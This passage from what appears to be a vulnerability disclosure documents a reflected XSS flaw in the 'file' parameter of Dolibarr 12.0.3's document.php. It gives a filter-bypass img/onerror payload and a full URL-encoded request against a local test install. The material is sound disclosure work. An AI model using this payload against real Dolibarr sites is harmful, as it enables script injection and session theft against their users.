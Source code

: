 ![alt text](../captures/c17_22.png "Figure 22: [UPDATE]: Stored XSS 2")

## UPDATE: Reflected XSS in GET parameter `file`

Identification of a new parameter allowing the exploitation of a Reflected XSS for path <span style="color:red">\<ROOT\>/document.php</span>.

The payload used as follows bypasses the safety mechanism in place:
```
<<poc>img on<--! -->error=alert('XSS') src='x<>'>
```

This one must be injected in the file parameter as you can see below:
```
<ROOT>/document.php?modulepart=medias&attachment=1&file=<<poc>img on<--! -->error=alert('XSS') src='x<>'>
```

Example: `http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/document.php?modulepart=medias&attachment=1&file=%3C%3Cpoc%3Eimg%20on%3C--!%20--%3Eerror=alert(%27XSS%27)%20src=%27x%3C%3E%27%3E`

Which gives the following result

